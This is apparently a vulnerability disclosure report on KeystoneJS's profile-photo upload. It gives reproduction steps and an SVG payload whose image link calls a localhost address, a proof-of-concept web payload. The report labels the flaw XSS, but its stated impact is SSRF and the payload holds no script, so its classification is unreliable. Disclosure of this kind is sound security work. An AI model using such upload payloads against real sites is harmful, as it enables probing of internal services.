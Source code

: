 # :book: Description  


 `KeystoneJS` is a powerful Node.js content management system and web app framework built on the Express web framework and Mongoose ODM. Keystone makes it easy to create sophisticated web sites and apps, and comes with a beautiful auto-generated Admin UI. This package is vulnerable for `(XSS)`.

https://github.com/keystonejs/keystone-classic

# :recycle:  Steps To Reproduce-:  
  0) download and run latest release from https://github.com/keystonejs/keystone-classic use demo http://demo.keystonejs.com/
  1) upload svg file as user profile photo. Payload used :
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" style="position:relative" width="300" height="200" overflow="hidden">
<image x="10" y="10" width="276" height="110" xlink:href="http://localhost:8080/svg"/>
<path d="M0 150h300v10H0z"/>
</svg>
```
# :telescope: POC

https://drive.google.com/file/d/1Rqsbr9_ijoHOa949B9Q1cM2jv8jb4zwV/view?usp=sharing
## 💥 Impact
SSRF
